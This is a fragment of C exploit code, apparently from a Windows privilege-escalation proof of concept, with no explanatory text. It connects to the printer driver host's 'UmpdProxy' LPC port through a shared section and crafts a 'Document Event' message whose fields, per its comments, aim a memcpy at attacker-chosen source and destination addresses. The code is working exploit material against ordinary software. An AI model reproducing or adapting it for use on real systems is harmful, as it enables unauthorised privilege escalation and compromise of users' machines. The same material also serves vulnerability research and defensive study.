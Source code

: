 ```

        wsprintfW(
                dst,
                L"\\RPC Control\\UmpdProxy_%x_%x_%x_%x",
                sessionId,
                tokenInformation[2],
                tokenInformation[3],
                0x2000);
        printf("name: %ls\n", dst);
        RtlInitUnicodeString(DestinationString, dst);

        return 1;
`}`

HANDLE CreatePortSharedBuffer(PUNICODE_STRING PortName)
`{`
        HANDLE sectionHandle = 0;
        HANDLE portHandle = 0;
        union _LARGE_INTEGER maximumSize;
        maximumSize.QuadPart = 0x20000;

        if (0 != NtCreateSection(&amp;sectionHandle, SECTION_MAP_WRITE | SECTION_MAP_READ, 0, &amp;maximumSize, PAGE_READWRITE, SEC_COMMIT, NULL)) `{`
                return 0;
        `}`
        if (sectionHandle)
        `{`
                ClientView.SectionHandle = sectionHandle;
                ClientView.Length = 0x30;
                ClientView.ViewSize = 0x9000;
                int retval = ZwSecureConnectPort(&amp;portHandle, PortName, NULL, &amp;ClientView, NULL, NULL, NULL, NULL, NULL);
                if(retval)`{`
                        return 0;
                `}`
        `}`

        return portHandle;
`}`

PVOID PrepareMessage()
`{`
        memset(&amp;LpcRequest, 0, sizeof(LpcRequest));
        LpcRequest.MessageHeader.DataSize = 0x20;
        LpcRequest.MessageHeader.MessageSize = 0x48;

        LpcRequest.MsgSendLen = 0x88;
        LpcRequest.PtrMsgSend = (UINT64)ClientView.ViewRemoteBase;
        LpcRequest.MsgReplyLen = 0x10;
        LpcRequest.PtrMsgReply = (UINT64)ClientView.ViewRemoteBase + 0x88;

        memcpy(&amp;LpcReply, &amp;LpcRequest, sizeof(LpcRequest));

        *(UINT64*)ClientView.ViewBase = 0x6D00000000; //Msg Type (Document Event)
        *((UINT64*)ClientView.ViewBase + 3) = (UINT64)ClientView.ViewRemoteBase + 0x100; //First arg to FindPrinterHandle
        *((UINT64*)ClientView.ViewBase + 4) = 0x500000005;  // 2nd arg to FindPrinterHandle
        *((UINT64*)ClientView.ViewBase + 7) = 0x2000000001; //iEsc argument to DocumentEvent
        *((UINT64*)ClientView.ViewBase + 0xA) = (UINT64)ClientView.ViewRemoteBase + 0x800; //Buffer out to DocumentEvent, pointer to pointer of src of memcpy
        *((UINT64*)ClientView.ViewBase + 0xB) = (UINT64)ClientView.ViewRemoteBase + 0x840; //Destination of memcpy
        *((UINT64*)ClientView.ViewBase + 0x28) = (UINT64)ClientView.ViewRemoteBase + 0x160;
```